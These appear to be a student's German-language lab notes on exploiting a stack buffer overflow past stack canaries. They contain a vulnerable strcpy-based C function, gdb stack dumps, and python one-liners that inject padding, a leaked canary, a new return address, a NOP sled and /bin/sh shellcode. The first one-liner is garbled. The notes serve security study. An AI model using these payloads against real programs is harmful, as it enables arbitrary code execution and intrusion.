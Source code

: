 ![[Pasted image 20230620115649.png]]


1. Nehmen wir an der Stack sieht folgendermaßen aus

^	char \*password
|	return adress
|	old ebp
|	char padded_password[28]
	

28xA + 8xA+ BADEAFFE

(gdb) x/40x $sp



464544434241

gef➤  x/40x $sp
0x7fffffffdce8:	0x555551fb	0x00005555	0x00000001	0x00000000
0x7fffffffdcf8:	0xffffe22b	0x00007fff	0x55554040	0x00005555
0x7fffffffdd08:	0xf7fe285c	0x00007fff	0x000007f0	0x00000000
0x7fffffffdd18:	0xffffe1d9	0x00007fff	0xf7fc1000	0x00007fff
0x7fffffffdd28:	0xa1e82a00	0x37fcbe3f	0xffffdd60	0x00007fff
0x7fffffffdd38:	0x55555298	0x00005555	0xffffde78	0x00007fff
0x7fffffffdd48:	0x00000064	0x00000002	0x00001000	0x00000000
0x7fffffffdd58:	0x555550e0	0x00005555	0x00000002	0x00000000
0x7fffffffdd68:	0xf7c29d90	0x00007fff	0x00000000	0x00000000
0x7fffffffdd78:	0x55555272	0x00005555	0xffffde60	0x00000002


Stack overflowed nach oben, also in Richtung der previous memory

0xDEADbEEF -> Beginn des Buffers {--> shellcode in buffer schreiben} 
0xdeadbfcf -> Ende des Buffer -> old ebp
0xdeadbfd7 --> return adress ->{ return adress overflown und auf 0xDeadbeef zeigen lassen }



/// DEBUG NOTE: start of function @ 0xC001D00D
int authenticate(char *password){
// first pad the password to hopefully avoid timing attacks
char padded_password [28];
if(sizeOf(password)>sizeOf(padded_password)){
	return 1;
}  
 
strcpy(padded_password , password);
// check the password
if (strcmp(padded_password , admin_pw) == 0) return 1;
	return 0;
}

**return 0 in the main function means that the program executed successfully.** **return 1 in the main function means that the program does not execute successfully and there is some error**. return 0 means that the user-defined function is returning false.




### Aufgabe 7 Stack canaries

0 0x00006953 
1 0x0001fb0c
2 0x08ba8b0e
3 0x000cf113
4 0x00016b28
5 0x70a367a9
6 0x0003a679
7 0x4bced1c1
8 0x000b1c41
9 0x00000999


echo $(python3 -c 'import("sys").stdout.buffer.write(b"\x41"16 + b"\xc1\xd1\xce\x4b" + b"\x41"12 + b"\x04\xd6\xff\xff" + b"\x41"*4 +  b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')


https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection


 $(python3 -c '__import__("sys").stdout.buffer.write(b"\x41"*16 + b"\xc1\xd1\xce\x4b" + b"\x41"*12 + b"\xac\xd5\xff\xff" + b"\x90"*104 + b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')


NOPS werden vor dem Shellcode eingefügt, da die Instruktionsadressen während des Ausführen steigen und der Stack von oben nach unten wächst. Somit müssen wir erst die NOPS overflown und anschließend den Shellcode.


https://security.stackexchange.com/questions/211534/should-the-shellcode-be-reversed-before-beeing-injected-in-a-simple-buffer-ove